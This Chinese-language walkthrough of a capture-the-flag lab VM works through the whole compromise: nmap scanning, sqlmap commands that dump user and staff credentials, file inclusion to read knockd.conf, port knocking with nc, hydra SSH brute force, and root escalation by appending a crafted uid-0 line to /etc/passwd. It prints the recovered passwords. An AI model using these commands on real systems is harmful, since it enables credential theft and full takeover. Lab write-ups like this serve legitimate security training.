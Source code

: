 # 端口发现
nmap -sP 192.168.31.0/24
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668762406301-b21296f5-5121-4d03-842f-ec1d4eba9103.png#averageHue=%232b3543&clientId=ue7b9128b-3cfe-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=350&id=u153c945c&margin=%5Bobject%20Object%5D&name=image.png&originHeight=350&originWidth=626&originalType=binary&ratio=1&rotation=0&showTitle=false&size=88100&status=done&style=none&taskId=uedd5784b-0576-415e-b68f-6e87fa19768&title=&width=626)
nmap -p- -A 192.168.31.151
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668762490910-b975a2d4-a10f-4744-8b50-e36c0e67bddf.png#averageHue=%232a3543&clientId=ue7b9128b-3cfe-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=376&id=ucab7d48d&margin=%5Bobject%20Object%5D&name=image.png&originHeight=376&originWidth=651&originalType=binary&ratio=1&rotation=0&showTitle=false&size=84481&status=done&style=none&taskId=u276ed7f4-dbf7-47c9-9b09-5a3ce5a2001&title=&width=651)
# web 突破
dirb 扫后台，没啥发现
访问 80 端口
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668762711322-4b88df8f-ccc7-4664-8315-e5a4b0bb996e.png#averageHue=%23dcdbd9&clientId=ue7b9128b-3cfe-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=758&id=uc2172112&margin=%5Bobject%20Object%5D&name=image.png&originHeight=758&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=false&size=68636&status=done&style=none&taskId=ud9c9bd85-7b47-4050-ab7f-be11c5b8036&title=&width=1920)
Serach 页面有查询，既然是查询，可能会有 sql 注入
可以查询 Display All Records 页面里的人员信息
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668763048903-55c6739e-6087-4473-b9a1-f5e1bb359322.png#averageHue=%23e5e5e2&clientId=ue7b9128b-3cfe-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=930&id=ud5b2a4ae&margin=%5Bobject%20Object%5D&name=image.png&originHeight=930&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=false&size=117474&status=done&style=none&taskId=uca74aa15-b419-4ee2-aed7-9a0c24f23ea&title=&width=1920)
抓包看看
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668763095619-07eea3be-d405-48c4-ad98-9a205cfa03d6.png#averageHue=%23f8f7f6&clientId=ue7b9128b-3cfe-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=378&id=uec39d65a&margin=%5Bobject%20Object%5D&name=image.png&originHeight=378&originWidth=965&originalType=binary&ratio=1&rotation=0&showTitle=false&size=63574&status=done&style=none&taskId=u7852c032-5d4d-406d-8bb5-61e23dd7c16&title=&width=965)
post 提交，用 sqlmap
sqlmap -u "http://192.168.31.151/results.php" --data "search=1" --dbs --batch
爆出数据库名
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668763288848-8afb960d-bb75-4d4c-af42-61cef959820f.png#averageHue=%232a3645&clientId=uee04151d-d0c2-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=185&id=ub9dcb209&margin=%5Bobject%20Object%5D&name=image.png&originHeight=185&originWidth=522&originalType=binary&ratio=1&rotation=0&showTitle=false&size=37429&status=done&style=none&taskId=u798033a3-e993-432d-807c-0c4108d727e&title=&width=522)
爆出 users 库的表名
sqlmap -u "http://192.168.31.151/results.php" --data "search=1" -D "users" --tables --batch
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668763349221-ef47f1de-71a9-4223-91fc-abdbbd3a1fe7.png#averageHue=%23293442&clientId=uee04151d-d0c2-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=198&id=u310c1d66&margin=%5Bobject%20Object%5D&name=image.png&originHeight=198&originWidth=521&originalType=binary&ratio=1&rotation=0&showTitle=false&size=36767&status=done&style=none&taskId=ub6dc0e78-ce6a-425e-8c80-343f20e7c48&title=&width=521)
爆出 UserDetails 表中的字段
sqlmap -u "http://192.168.31.151/results.php" --data "search=1" -D "users" -T "UserDetails" --columns --batch
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668763423142-30d9d050-77c0-43d6-9d64-4cd732d825ab.png#averageHue=%23283342&clientId=uee04151d-d0c2-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=285&id=uf1a440eb&margin=%5Bobject%20Object%5D&name=image.png&originHeight=285&originWidth=407&originalType=binary&ratio=1&rotation=0&showTitle=false&size=27664&status=done&style=none&taskId=u7a0bfc31-d632-4b7d-accf-45dcb56eb58&title=&width=407)
dump 出 username 和 password
sqlmap -u "http://192.168.31.151/results.php" --data "search=1" -D "users" -T "UserDetails" -C "username,password" --dump --batch
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668763746728-bf45aad7-0d7d-4991-865f-e23242e2c263.png#averageHue=%232a3747&clientId=uee04151d-d0c2-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=429&id=uba5f42f6&margin=%5Bobject%20Object%5D&name=image.png&originHeight=429&originWidth=313&originalType=binary&ratio=1&rotation=0&showTitle=false&size=40799&status=done&style=none&taskId=ud90ca6f9-b560-42f1-a920-bf3e565dc90&title=&width=313)
这里面是一些员工的账户密码
爆破 Staff 数据库
sqlmap -u "http://192.168.31.151/results.php" --data "search=1" -D "Staff" --tables --batch
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668763842089-f03cb5a9-2a4e-47c6-bc25-02e4479e0b9e.png#averageHue=%23293546&clientId=uee04151d-d0c2-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=129&id=ucafec6e1&margin=%5Bobject%20Object%5D&name=image.png&originHeight=129&originWidth=226&originalType=binary&ratio=1&rotation=0&showTitle=false&size=7768&status=done&style=none&taskId=u70afe064-48ae-4b59-8a59-216947c9da7&title=&width=226)
爆出 Users 表的列名
sqlmap -u "http://192.168.31.151/results.php" --data "search=1" -D "Staff" -T "Users" --columns --batch
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668763929888-2672cc64-65d9-43ff-aadd-d7563a06faff.png#averageHue=%23283443&clientId=uee04151d-d0c2-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=168&id=u98391ed2&margin=%5Bobject%20Object%5D&name=image.png&originHeight=168&originWidth=323&originalType=binary&ratio=1&rotation=0&showTitle=false&size=14749&status=done&style=none&taskId=u6e4b8654-c24f-493c-9d56-ea37b564d36&title=&width=323)
dump 出 username 和 password 字段
sqlmap -u "http://192.168.31.151/results.php" --data "search=1" -D "Staff" -T "Users" -C "Username,Password" --batch --dump
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668764938975-ae150f55-bb7c-4750-8c11-84a3de578a29.png#averageHue=%2327303d&clientId=uee04151d-d0c2-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=172&id=u0789bb9b&margin=%5Bobject%20Object%5D&name=image.png&originHeight=172&originWidth=597&originalType=binary&ratio=1&rotation=0&showTitle=false&size=22170&status=done&style=none&taskId=u04b3ad42-de73-4b6f-9575-0a84c233633&title=&width=597)
得到 admin：transorbital1
登录试试
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668764991417-7a19019a-a05e-4166-8360-f8c0094da4ee.png#averageHue=%23e9cea2&clientId=uee04151d-d0c2-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=408&id=ufa57486c&margin=%5Bobject%20Object%5D&name=image.png&originHeight=408&originWidth=875&originalType=binary&ratio=1&rotation=0&showTitle=false&size=22039&status=done&style=none&taskId=u59c9f329-adac-4940-ac7e-1bc62ced012&title=&width=875)
登录成功，但显示了个文件不存在
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668765019304-69287995-f45b-4715-b6e8-3f4af286d2e9.png#averageHue=%23e9cfa5&clientId=uee04151d-d0c2-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=372&id=ua8ef71c9&margin=%5Bobject%20Object%5D&name=image.png&originHeight=372&originWidth=745&originalType=binary&ratio=1&rotation=0&showTitle=false&size=20130&status=done&style=none&taskId=u386520fd-6036-4f3b-8290-0917bd75bfc&title=&width=745)
提示文件不存在，意思就是这个页面有文件包含
尝试文件包含
尝试多次后成功实现文件包含
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668765146007-53e0972f-d3ee-4e8b-8ed8-915a3360d61c.png#averageHue=%23f8f6f2&clientId=uee04151d-d0c2-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=809&id=ud8a2f0e1&margin=%5Bobject%20Object%5D&name=image.png&originHeight=809&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=false&size=179785&status=done&style=none&taskId=u0f9dea3e-f4db-4654-a1dc-a365dfda772&title=&width=1920)
好像没啥用
ssh 爆破，将之前 users 数据库中的用户名和密码分别放到两个密码本里
hydra -L 1.txt -P 2.txt 192.168.31.151 ssh
显示 ssh 拒绝连接
nmap -p22 192.168.31.151
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668766254616-d1733370-7363-4e12-a3ec-d9b457223e0c.png#averageHue=%2328303c&clientId=uab245c73-fa6f-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=154&id=u0db63ac2&margin=%5Bobject%20Object%5D&name=image.png&originHeight=154&originWidth=470&originalType=binary&ratio=1&rotation=0&showTitle=false&size=32317&status=done&style=none&taskId=ued186417-169c-457d-bdb9-ef4244ad5f6&title=&width=470)
22 端口是过滤状态
使用文件包含查看 ssh 的配置文件 knockd.conf
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668766323146-76a210a9-f1cc-4f0c-827d-7fa9bcc69ea1.png#averageHue=%23fcfcfb&clientId=uab245c73-fa6f-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=641&id=u9800f49d&margin=%5Bobject%20Object%5D&name=image.png&originHeight=641&originWidth=1873&originalType=binary&ratio=1&rotation=0&showTitle=false&size=99908&status=done&style=none&taskId=u366590cb-48f1-4bab-8f6d-d616dab536f&title=&width=1873)
发现 ssh 自定义的端口号，依次进行敲门
_之所以要敲门是因为服务端开启了 Secure Shell (_[_SSH_](https://so.csdn.net/so/search?q=SSH&spm=1001.2101.3001.7020)_) 连接  _

1. _把 SSH 的标准端口改为不常用的值并增强 SSH 配置，从而挡住最简单的攻击。_
2. _定义有限的用户列表，只允许这些用户登录。_
3. _完全隐藏允许 SSH 访问的事实，要求根据特殊的 “敲门” 序列识别有效用户。_

_该靶场使用的是第三种_
敲门：
```php
for x in 7469 8475 9842; do nc 192.168.31.151 $x;done
```
然后再使用 nmap -p22 192.168.31.151
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668766544925-8471d577-1ee2-4c62-aa10-f36d5797ec82.png#averageHue=%23272e3a&clientId=uab245c73-fa6f-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=315&id=ub8c2331c&margin=%5Bobject%20Object%5D&name=image.png&originHeight=315&originWidth=724&originalType=binary&ratio=1&rotation=0&showTitle=false&size=69671&status=done&style=none&taskId=u3c98368c-d2ae-4073-b3c6-3dd6b1920b0&title=&width=724)
22 端口开启了
接着上面的 hydra 爆破
可以得到两组账户
chandlerb：UrAG0D!
janitor：Ilovepeepee
登录 janitor
进来之后在 janitor 的家目录下发现隐藏文件
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668766915171-46d131c2-4082-4210-a9a0-6650e4421d61.png#averageHue=%2328303d&clientId=uab245c73-fa6f-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=172&id=u0f5d933b&margin=%5Bobject%20Object%5D&name=image.png&originHeight=172&originWidth=707&originalType=binary&ratio=1&rotation=0&showTitle=false&size=39813&status=done&style=none&taskId=uefb162b0-7157-4278-b784-e437a9454f0&title=&width=707)
进入 .secrets-for-putin 文件，有个密码本
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668767021138-ca7218ce-e863-473f-bb03-9aa6cae409d9.png#averageHue=%2328313d&clientId=uab245c73-fa6f-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=258&id=u341dda55&margin=%5Bobject%20Object%5D&name=image.png&originHeight=258&originWidth=774&originalType=binary&ratio=1&rotation=0&showTitle=false&size=51922&status=done&style=none&taskId=ua58588b0-cf6a-4f98-aa55-485229cc279&title=&width=774)
将这个密码本加入到刚刚爆破 ssh 用的密码本里，再次爆破
hydra -L 1.txt -P 2.txt 192.168.31.151 ssh -t 4
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668767226744-bb54ff59-ed59-4139-92a3-0425a73e54eb.png#averageHue=%232b3642&clientId=uab245c73-fa6f-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=236&id=ub0b018f4&margin=%5Bobject%20Object%5D&name=image.png&originHeight=236&originWidth=850&originalType=binary&ratio=1&rotation=0&showTitle=false&size=85760&status=done&style=none&taskId=u15985d03-c61b-45bc-bd9a-b791f8867e0&title=&width=850)
用新账户 fredf：B4-Tru3-001 来登录
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668767319771-d4a0ac93-abea-4304-ac68-cce81764797d.png#averageHue=%232a3442&clientId=uab245c73-fa6f-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=251&id=uea1558d9&margin=%5Bobject%20Object%5D&name=image.png&originHeight=251&originWidth=593&originalType=binary&ratio=1&rotation=0&showTitle=false&size=52464&status=done&style=none&taskId=uddaee8d2-f839-4ff4-9948-5f2c4886474&title=&width=593)
登录成功
查看权限 sudo -l
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668767466429-ef9070bd-b87f-4180-8469-455e2dc95e33.png#averageHue=%232a3442&clientId=uab245c73-fa6f-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=224&id=ua9e1dc22&margin=%5Bobject%20Object%5D&name=image.png&originHeight=224&originWidth=543&originalType=binary&ratio=1&rotation=0&showTitle=false&size=48033&status=done&style=none&taskId=u93e01b83-68d6-49f5-bfb0-788ce447ece&title=&width=543)
可以无密码使用 /opt/devstuff/dist/test/test
看看这个 test 是啥
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668768081646-4e32cee6-cf87-4fc7-8cde-d6b92af28acc.png#averageHue=%232c3644&clientId=uab245c73-fa6f-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=45&id=u02ad85a7&margin=%5Bobject%20Object%5D&name=image.png&originHeight=45&originWidth=579&originalType=binary&ratio=1&rotation=0&showTitle=false&size=8790&status=done&style=none&taskId=u5f48cd15-ac25-4c19-b6ca-9b8f5adee4e&title=&width=579)
提示说是叫 test.py
find 找一下
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668768128438-ef074b64-8392-4054-b629-fa76bc8f0473.png#averageHue=%232b3543&clientId=uab245c73-fa6f-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=85&id=u9adfe120&margin=%5Bobject%20Object%5D&name=image.png&originHeight=85&originWidth=461&originalType=binary&ratio=1&rotation=0&showTitle=false&size=14147&status=done&style=none&taskId=u8a75770f-e26e-4adc-b931-366e9455681&title=&width=461)
得知是 /opt/devstuff/test.py
查看
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668767519819-c9938b32-ae38-4623-a140-db7057f342b0.png#averageHue=%23272f3c&clientId=uab245c73-fa6f-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=351&id=u6b21baa4&margin=%5Bobject%20Object%5D&name=image.png&originHeight=351&originWidth=495&originalType=binary&ratio=1&rotation=0&showTitle=false&size=47664&status=done&style=none&taskId=ufd15f03a-aa97-429c-b83a-c2a3056f322&title=&width=495)
这段代码的意思是 文件1以‘r’打开，读取内容到output，文件2以’a’，append打开，把output追加到文件2  
既然 test.py 拥有 root 权限，那我们可以构造一个拥有 root 权限的账户，将其储存在 /etc/passwd 中即可

# 提权
使用 kali openssl 创建一个本地加密用户
```php
openssl passwd -1 -salt admin 123456

 openssl是一个安全套接字层密码库，囊括主要的密码算法、常用密钥、证书封装管理功能及实现ssl协议
-1 的意思是使用md5加密算法
-salt 自动插入一个随机数作为文件内容加密
admin 123456 用户名和密码
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668768369753-18339c87-4e47-41a0-a26b-1d0340b3a518.png#averageHue=%232c3644&clientId=uab245c73-fa6f-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=68&id=u13022fdd&margin=%5Bobject%20Object%5D&name=image.png&originHeight=68&originWidth=394&originalType=binary&ratio=1&rotation=0&showTitle=false&size=13758&status=done&style=none&taskId=uf648bf15-be8e-4d75-b772-000a4ff1367&title=&width=394)
复制下来，在靶机中将这句话加工后 echo 到 /etc/passwd 中
admin:$1$admin$2WRLhTGcIMgZ7OhwCpREK1:0:0::/root:/bin/bash
然后运行 sudo /opt/devstuff/dist/test/test /tmp/qqq /etc/passwd（免密）
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668768646518-0f62cba3-423a-4e88-a34f-f502dcca4382.png#averageHue=%2329323f&clientId=uab245c73-fa6f-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=105&id=ubfd2111a&margin=%5Bobject%20Object%5D&name=image.png&originHeight=105&originWidth=977&originalType=binary&ratio=1&rotation=0&showTitle=false&size=30471&status=done&style=none&taskId=ud49b9b23-0cb7-4d80-8716-883aa26d8d9&title=&width=977)
提权成功，拿flag
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668768736192-2c274148-20db-4b36-9ac9-26e81a159f26.png#averageHue=%233a434e&clientId=uab245c73-fa6f-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=393&id=u8a157249&margin=%5Bobject%20Object%5D&name=image.png&originHeight=393&originWidth=901&originalType=binary&ratio=1&rotation=0&showTitle=false&size=77613&status=done&style=none&taskId=u45ee321e-225c-4f41-aa80-1467db61e71&title=&width=901)


